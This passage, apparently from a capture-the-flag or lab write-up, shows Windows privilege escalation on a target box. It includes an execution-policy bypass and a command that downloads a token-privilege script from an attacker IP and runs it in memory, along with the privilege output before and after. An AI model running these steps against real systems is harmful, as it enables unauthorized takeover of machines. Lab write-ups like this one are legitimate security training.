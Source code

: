 ## Shell as SYSTEM

### Spawning an elevated shell

With a regular shell, we do not have any interesting privileges.

```console
C:\Users\kingarthy>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

But we can try spawning an elevated shell with the password we have.

![Spawning Elevated Shell](spawn_elevated_shell.webp){: width="700" height="500" }

With this shell, we have interesting privileges like `SeTakeOwnershipPrivilege` and `SeRestorePrivilege`, but they are disabled.

```console
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeRestorePrivilege            Restore files and directories            Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

### Enabling privileges

We can use the [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) to try to enable them.

After running the script, we see that those privileges are now enabled.

```console
C:\Windows\system32>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> IEX(New-Object System.Net.WebClient).DownloadString('http://10.11.72.22:445/EnableAllTokenPrivs.ps1');
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeRestorePrivilege            Restore files and directories            Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```
